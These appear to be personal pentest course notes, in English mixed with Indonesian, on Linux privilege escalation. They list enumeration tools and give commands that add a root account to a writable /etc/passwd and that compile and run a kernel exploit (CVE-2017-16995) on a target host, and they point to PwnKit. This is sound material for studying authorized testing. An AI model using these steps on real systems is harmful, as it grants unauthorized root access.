 ## From The Course

AUTOMATED ENUM TOOLS
1. unix-privesc-check
```cmd
https://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz
/opt/unix-privesc-check

./unix-privesc-check standard > output.txt [RECOMMENDED LOW FALSE-POSITIVE]
./unix-privesc-check detailed > detailed.txt
```
2. Linpeas (THE BEST AND RECOMMENDED)
3. Linenum (meh)


1. Check `id`, liat ada id aneh gk. Cari privescnya.
2. Check `/etc/passwd`
eve:x:1001:1001:,,,:/home/eve:/bin/bash
<username>:<password>:<UID>:<GID>:<comment>:<home_folder>:<login_shell>
> Kalo **writable** somehow, pake sudoedit atau ada vulnerable permission kyk write
```bash
openssl passwd asdasd
```
output: dLPiXAZFFhhQ6
```bash
echo "nox:dLPiXAZFFhhQ6:0:0:root:/root:/bin/bash" >> /etc/passwd
```
>> Tinggal su or ssh.

3. EXPLOITING KERNEL. Check version for kernel exploit (OS, LINUX OS, LINUX VERSION, OS VERSION) [PENTING] >> LAST EFFORT AJA
```bash
cat /etc/issue
cat /etc/os-release
uname -a
uname -r
arch
hostnamectl
```
> Searching for exploits
```bash
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
```
> Copy, baca sourcenya, cari cara compilenya, transfer exploitnya. COMPILE DI TARGETNYA
```bash
cp /usr/share/exploitdb/exploits/linux/local/45010.c .
mv 45010.c cve-2017-16995.c
scp cve-2017-16995.c joe@192.168.123.216:
gcc cve-2017-16995.c -o cve-2017-16995
chmod +x cve-2017-16995
./cve-2017-16995
```
> PwnKit https://github.com/ly4k/PwnKit (CVE-2021-4034)
